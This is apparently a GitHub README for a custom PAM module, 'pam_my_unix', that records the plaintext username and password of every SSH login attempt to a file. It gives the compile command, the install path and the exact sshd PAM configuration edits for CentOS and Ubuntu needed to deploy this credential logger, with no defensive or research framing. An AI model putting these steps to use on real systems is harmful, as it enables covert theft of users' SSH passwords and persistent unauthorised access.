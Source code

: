 # PAM_MY_UNIX

## How to use
- Dependency resolution
   ### CentOS
    ``` sh
    yum intall pam-devel
    ```
    
   ### Ubuntu 
    ``` sh
    apt-get intall libpam-dev
    ```
    
    
- check password file path
    This module will put username/password to `/home/password.txt`, you can change it in `main.c`.
    Just edit `const char *log_filename = "/home/password.txt";` and compile this PAM module.

- compile
    ``` sh
    cc main.c -o pam_my_unix.so -fPIC -m64 -shared -lpam
    ```

- move to the right directory
    ``` sh
    cp ./pam_my_unix.so /lib64/security/
    ```

- edit sshd's pam config.
    ### CentOS
    ``` sh
    vim /etc/pam.d/sshd
    ```
    And add the next line after the latest auth interface module:
    ``` sh
    auth optional pam_my_unix.so
    ```

    Maybe you file looks like this after you edit it.
    ```
    ...
    auth       required     pam_unix.so nullok
    auth       optional     pam_my_unix.so
    account    required     pam_nologin.so
    account    include      password-auth
    ...
    ```

    ### Ubuntu
    ``` sh
    cp /etc/pam.d/common-auth /etc/pam.d/sshd-auth
    vim /etc/pam.d/sshd-auth
    ```
    And the `sshd-auth` file looks like this below:
    ```
    auth	required            pam_unix.so nullok_secure
    auth    optional            pam_my_unix.so
    auth	required			pam_permit.so
    ```

    And then edit `/etc/pam.d/sshd` and change
    ```
    @include common-auth
    ```
    to
    ```
    @include sshd-auth
    ```

- result
    When someone who is trying to auth via ssh, his username and password will log into a file.
    ![result](https://raw.githubusercontent.com/LiGhT1EsS/pam_my_unix/master/doc/1.png)

